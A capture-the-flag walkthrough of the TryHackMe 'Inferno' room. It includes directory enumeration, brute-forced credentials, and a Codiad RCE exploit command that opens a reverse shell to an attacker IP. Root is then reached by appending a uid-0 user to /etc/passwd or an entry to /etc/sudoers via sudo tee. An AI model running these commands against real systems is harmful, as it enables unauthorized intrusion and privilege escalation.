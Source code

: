 # 69 - Inferno

Room Link --> [https://tryhackme.com/room/inferno](https://tryhackme.com/room/inferno)

### Enumeration

{% code overflow="wrap" lineNumbers="true" %}
```bash
```
{% endcode %}

#### Gobuster enum

{% code overflow="wrap" lineNumbers="true" %}
```bash
gobuster dir -u http://10.10.103.251/ -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt -t 500 --no-error

/inferno
```
{% endcode %}

We have an authentication page

<figure><img src=".gitbook/assets/image (463).png" alt=""><figcaption></figcaption></figure>

#### Bruteforce with Hydra

<figure><img src=".gitbook/assets/image (14) (1).png" alt=""><figcaption></figcaption></figure>

`admin : dante1` .

Logged in&#x20;

<figure><img src=".gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

### Initial Access

We search Google for any exploit since we are authenticated as admin user and found: this [repo](https://github.com/WangYihang/Codiad-Remote-Code-Execute-Exploit)

So because we are authenticating twice, we use the cmd:

{% code overflow="wrap" lineNumbers="true" %}
```
python2.7 exploit.py http://admin:dante1@10.10.103.251/inferno/ admin dante1 10.18.88.214 9001 linux
```
{% endcode %}

And got shell

<figure><img src=".gitbook/assets/image (2) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

There is a .Download.dat file in the /home/dante dir, contains some cipher text.

<figure><img src=".gitbook/assets/image (4) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src=".gitbook/assets/image (5) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

We got an SSH credentials: `dante : V1rg1l10h3lpm3`&#x20;

And we are logged in.

### Priv Esc

`sudo -l` - we can run tee as root.

There’s a binary available to run it as sudo. “**tee”** reads from standard input and write to standard output and files. So, we can edit any configuration file to gain root shell

We can use tee to add config to files.

#### /etc/passwd file

Lets add a new root user to /etc/passwd file

{% code overflow="wrap" %}
```bash
dante@Inferno:~$ LFILE=/etc/passwd

dante@Inferno:~$ echo "dking:$(openssl passwd -6 -salt noraj password):0:0:noraj:/root:/bin/bash" | sudo tee -a "$LFILE"

dante@Inferno:~$ su dking
```
{% endcode %}

And we are root.

Or

#### Sudoers file

We can also add dante to the sudoers file to execute all sudo cmds.

```bash
echo "dante ALL=(root) ALL" | sudo tee -a /etc/sudoers o tee -a /etc/sudoers
```

Done!

